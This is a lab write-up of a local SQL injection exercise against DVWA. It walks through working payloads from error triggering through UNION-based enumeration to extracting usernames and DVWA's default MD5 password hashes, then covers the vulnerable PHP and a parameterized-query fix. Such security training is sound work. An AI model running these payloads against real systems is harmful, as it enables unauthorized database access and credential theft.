# DVWA — SQL Injection (Low)

In this lab, I tested the **SQL Injection** vulnerability in DVWA at the `Low` security level.

The objective was to understand how the input was inserted into the SQL query, confirm the vulnerability, map the database structure, and extract data from the `users` table.


<p align="center">
  <a href="images/01-sqli-module.png">
    
  </a><br>
  <sub>DVWA SQL Injection module running at the Low security level.</sub>
</p>

## Environment

- DVWA running locally with Docker
- Security level: `Low`
- Database: MariaDB
- Testing performed only in my local lab

## Initial testing

I started by using normal values in the `User ID` field.

The application accepted numeric IDs from `1` to `5` and returned the corresponding user's first and last name.

```text
1
2
3
4
5
```

This established the application's expected behavior before I tested malformed input.

<p align="center">
  <a href="images/02-initial-testing.png">
    
  </a><br>
  <sub>Baseline test using a normal numeric User ID.</sub>
</p>

## Triggering a SQL error

My first SQL injection test was a single quote:

```sql
'
```

The quote was intended to close the string used by the original SQL query. Instead of handling the input safely, the application returned a detailed MariaDB error:

```text
You have an error in your SQL syntax...
```

The error also exposed information such as:

- MariaDB as the database technology
- The use of PHP and `mysqli`
- Internal application paths
- The vulnerable file: `low.php`
- Part of the SQL query executed by the application

Although the HTTP response was `200 OK`, the page content showed that the SQL query had failed. This confirmed that the input was reaching the query without proper parameterization.

<p align="center">
  <a href="images/03-sql-error.png">
    
  </a><br>
  <sub>A single quote triggers a detailed MariaDB syntax error.</sub>
</p>

## Testing true and false conditions

Next, I tested whether I could modify the query logic using boolean conditions.

### True condition

```sql
' OR 1=1 -- 
```

Because `1=1` is always true, the application returned every user in the query result:

```text
admin
Gordon Brown
Hack Me
Pablo Picasso
Bob Smith
```

<p align="center">
  <a href="images/04-true-condition.png">
    
  </a><br>
  <sub>The true condition returns every user in the result set.</sub>
</p>

### False condition

```sql
' OR 1=2 -- 
```

Because `1=2` is false, the application returned no users.

<p align="center">
  <a href="images/05-false-condition.png">
    
  </a><br>
  <sub>The false condition returns no users.</sub>
</p>

The different responses confirmed that I could control the condition used by the SQL query.

> MariaDB requires whitespace after `--` for it to begin a comment. The payloads therefore include a trailing space.

## Finding the number of columns

To use `UNION SELECT`, I first needed to identify how many columns the original query returned. I used `ORDER BY` and increased the column number:

```sql
' ORDER BY 1 -- 
```

```sql
' ORDER BY 2 -- 
```

Both worked successfully. When I tested a third column:

```sql
' ORDER BY 3 -- 
```

The application returned an error, indicating that the original query returned **two columns**.

<p align="center">
  <a href="images/06-column-count.png">
    
  </a><br>
  <sub><code>ORDER BY 3</code> fails, confirming that the original query returns two columns.</sub>
</p>

## Confirming UNION-based SQL injection

Knowing that the query used two columns, I tested a `UNION SELECT` with exactly two values:

```sql
' UNION SELECT 'test','test2' -- 
```

The application displayed both values:

```text
First name: test
Surname: test2
```

This confirmed that both columns accepted and displayed text data and that the vulnerability could be exploited using **UNION-based SQL injection**.

<p align="center">
  <a href="images/07-union-confirmation.png">
    
  </a><br>
  <sub>Two controlled values are displayed through <code>UNION SELECT</code>.</sub>
</p>

## Discovering the database version

I used the `VERSION()` function to identify the database version:

```sql
' UNION SELECT VERSION(),'test2' -- 
```

The application returned:

```text
10.11.18-MariaDB-ubu2204
```

Knowing the database version helps determine which SQL syntax and database-specific functions are available. In a real assessment, the version could also be checked for known vulnerabilities, although that was not the focus of this lab.

<p align="center">
  <a href="images/08-database-version.png">
    
  </a><br>
  <sub>The database version returned by <code>VERSION()</code>.</sub>
</p>

## Discovering the current database

To identify the database currently in use, I executed:

```sql
' UNION SELECT DATABASE(),NULL -- 
```

The returned database name was:

```text
dvwa
```

<p align="center">
  <a href="images/09-current-database.png">
    
  </a><br>
  <sub>The current database name returned by <code>DATABASE()</code>.</sub>
</p>

## Enumerating tables

With the database name identified, I queried `information_schema.tables` to enumerate its tables:

```sql
' UNION SELECT table_name,NULL
FROM information_schema.tables
WHERE table_schema='dvwa' -- 
```

The application returned the following tables:

```text
guestbook
access_log
users
security_log
```

The `users` table was the most interesting target because it could contain authentication data.

I had to research part of this payload because I did not remember the exact `information_schema` structure. However, the database name used in the condition came directly from the previous `DATABASE()` result.

<p align="center">
  <a href="images/10-table-enumeration.png">
    
  </a><br>
  <sub>Tables enumerated from the <code>dvwa</code> database.</sub>
</p>

## Enumerating columns from the users table

Before extracting data, I needed to know which columns existed inside the `users` table. I queried `information_schema.columns`:

```sql
' UNION SELECT column_name,NULL
FROM information_schema.columns
WHERE table_schema='dvwa'
AND table_name='users' -- 
```

The returned columns were:

```text
user_id
first_name
last_name
user
password
avatar
last_login
failed_login
role
account_enabled
```

The most relevant columns for this test were `user` and `password`.

<p align="center">
  <a href="images/11-column-enumeration.png">
    
  </a><br>
  <sub>Columns enumerated from the <code>users</code> table.</sub>
</p>

## Extracting usernames and password hashes

Finally, I selected the `user` and `password` columns directly from the `users` table:

```sql
' UNION SELECT user,password FROM users -- 
```

The application returned the usernames together with their password hashes:

```text
admin   -> 5f4dcc3b5aa765d61d8327deb882cf99
gordonb -> e99a18c428cb38d5f260853678922e03
1337    -> 8d3533d75ae2c3966d7e0d4fcc69216b
pablo   -> 0d107d09f5bbe40cade3de5c71e9e9b7
smithy  -> 5f4dcc3b5aa765d61d8327deb882cf99
```

The values appear to be MD5 hashes because each one contains 32 hexadecimal characters. Hashing is not encryption, so these values are not simply "decoded." They could potentially be cracked using dictionary attacks or brute force, especially because MD5 is fast and unsuitable for password storage.

Cracking the hashes was unnecessary for this lab because the SQL injection had already demonstrated access to sensitive database information.

<p align="center">
  <a href="images/12-credential-extraction.png">
    
  </a><br>
  <sub>Usernames and password hashes extracted from the <code>users</code> table.</sub>
</p>

## Vulnerable behavior

At the `Low` security level, the application reads the `id` parameter directly from the request:

```php
$id = $_REQUEST['id'];
```

The value is then inserted into the SQL query without validation or parameterization:

```php
$query = "SELECT first_name, last_name
          FROM users
          WHERE user_id = '$id';";
```

Because the input is placed directly inside the SQL string, a user can close the original quoted value and modify the query structure.

For example, this input:

```sql
' OR 1=1 -- 
```

changes the query into something similar to:

```sql
SELECT first_name, last_name
FROM users
WHERE user_id = '' OR 1=1 -- ';
```

The `OR 1=1` condition is always true, while `--` comments out the remaining quote. As a result, the database returns all rows from the `users` table.

<p align="center">
  <a href="images/13-vulnerable-source.png">
    
  </a><br>
  <sub>The vulnerable query in <code>low.php</code> directly interpolates user-controlled input.</sub>
</p>

## Impact

This vulnerability allowed me to:

- Change the logic of the original SQL query
- Retrieve every user returned by the application
- Identify the database technology and version
- Discover the current database name
- Enumerate tables and columns
- Extract usernames and password hashes

In a real application, this could expose personal data, authentication credentials, and internal records or even lead to complete database compromise, depending on the database user's permissions.

## Mitigation

The main fix is to stop building SQL queries by concatenating user-controlled input. The application should use **prepared statements with parameterized queries**, keeping the SQL structure separate from the supplied data.

Example using PHP and `mysqli`:

```php
$id = $_REQUEST['id'];

$stmt = $GLOBALS["___mysqli_ston"]->prepare(
    "SELECT first_name, last_name
     FROM users
     WHERE user_id = ?"
);

$stmt->bind_param("i", $id);
$stmt->execute();

$result = $stmt->get_result();
```

The `?` acts as a placeholder, and `bind_param("i", $id)` sends the value separately as an integer. This prevents the input from being interpreted as part of the SQL command.

Additional protections include:

- Validate that the ID is a valid integer, while remembering that validation does not replace parameterization.
- Avoid exposing detailed database errors to the user. Log them internally instead.
- Use a database account with only the permissions required by the application.
- Store passwords using a dedicated password-hashing algorithm such as Argon2id or bcrypt rather than MD5.

## Conclusion

The vulnerability was first identified through an SQL syntax error and then confirmed using true and false boolean conditions.

After determining that the original query returned two columns, I used `UNION SELECT` to retrieve database information. From there, I enumerated the database, its tables, the columns inside `users`, and finally extracted usernames and password hashes.

The most important part of the lab was not memorizing a single payload but following a clear process:

```text
Normal input
-> SQL error
-> True/false conditions
-> Number of columns
-> Displayed columns
-> Database information
-> Tables
-> Columns
-> Sensitive data
```
